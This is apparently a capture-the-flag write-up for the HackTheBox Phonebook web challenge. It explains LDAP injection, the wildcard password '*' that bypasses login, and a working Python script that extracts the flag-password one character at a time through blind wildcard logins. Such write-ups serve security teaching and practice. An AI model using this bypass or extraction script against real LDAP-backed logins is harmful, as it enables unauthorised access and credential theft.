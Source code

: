 # HackTheBox Phonebook
## Reconnaisance
After booting up the challenge, we are greeted with the following login screen:
![Login screen](/web/HTB_Phonebook/images/login.PNG)
This screen reveals some interesting information. First of all, the website allows for logging in with workstation usernames and passwords. It is thus most likely connected to Active Directory in some way. Second, there is most likely a user named Reese.

My first idea here was to use dirbuster to see if there were any files exposed that would reveal workstation credentials. However, my dirbuster scan did not result in any interesting files. Instead, I went researching what technology could be behind the AD login to see what it is that we are attacking. My search resulted in the following two forum posts:

![Using active directory to authenticate users on intranet site](https://stackoverflow.com/questions/17773643/using-active-directory-to-authenticate-users-on-intranet-site)

![What is it called when you can log into multiple workstations with one username and password]([https://pages.github.com/](https://askubuntu.com/questions/727504/what-is-it-called-when-you-can-log-into-multiple-workstations-with-one-username))

These posts revealed that we are most likely looking at an LDAP login. Searching for LDAP vulnerabilities result in tons of pages about LDAP injection including an ![OWASP LDAP Injection](https://owasp.org/www-community/attacks/LDAP_Injection) page. At this point I spent some time reading up on LDAP injection, and found a nice ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) resource. This page describes in detail how LDAP injection works, so if it is a new topic for you as well I highly suggest reading up on this. 

## LDAP injection
To summarize, LDAP injection works somewhat similar to SQL injection. The username and password are put into a query that is evaluated. Interestingly, the queries can allow wildcards with `*`. As we don't have the code running and thus don't (yet) know what the query looks like, lets try using a wildcard `*`.

Remember that at the start of the challenge we identified the user Reese. We can try to login using the username `Reese`, and as password we can use `*`. This works! We land on a page that seems to be the actual phonebook. We can search through the phonebook on this page, which results in some names with email addresses and phone numbers. However, there is nothing that immediately looks like it would contain a flag.

![Phonebook](/web/HTB_Phonebook/images/phonebook.PNG)

Here I got stuck for a bit, as it was not clear what we should attack next to get the flag for the challenge. I read through the ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) page again, and realised we might want to try blind exploitation. This allows us to brute force the password one by one, whereas previously we just bypassed the password altogether. This allows us to figure out the password, which will hopefully be the flag for the challenge. We can test if Reese's password contains the flag by logging in with the username `Reese`, and password `HTB*`. This will be successful if the password starts with `HTB`, indicating it is a flag. Luckily, this works!

Bruteforcing the password by hand will take quite a lot of work, especially considering flags often contain both uppercase and lowercase letters, as well as numbers and some other characters. Let's thus create a script for this. This script should brute force character by character, and add the character to the password if the login succeeds. Testing the login by hand reveals that both successful and unsuccessful logins result in a redirect (HTTP status code 302), but a successful login redirects to `/` and an unsuccessful one redirects to `/login?message=Authentication%20failed`. 

Below is the Python script I created to extract the flag:

```
import requests
import string

TARGET_URL = "http://<IP>:<PORT>" # Change to actual IP and PORT
LOGIN_PATH = "/login"
USERNAME = "Reese"
PASSWORD = ""

CHARACTER_SET = string.ascii_letters + string.digits + '_-{}!'


def check_password(username, password):
    login_url = f"{TARGET_URL}{LOGIN_PATH}"
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, data=data, allow_redirects=False)
    redirect_location = response.headers.get('Location')
    if redirect_location == "/":
        return True
    else:
        return False



while True:
    for char in CHARACTER_SET:
        current_guess = PASSWORD + char
        print(f"[*] Progress: {current_guess}", end='\r')
        if check_password(USERNAME, current_guess + "*"):
            PASSWORD += char
            break
    if char == "}":
        break
    
print(f"\n[*] Found password: {PASSWORD}")
```
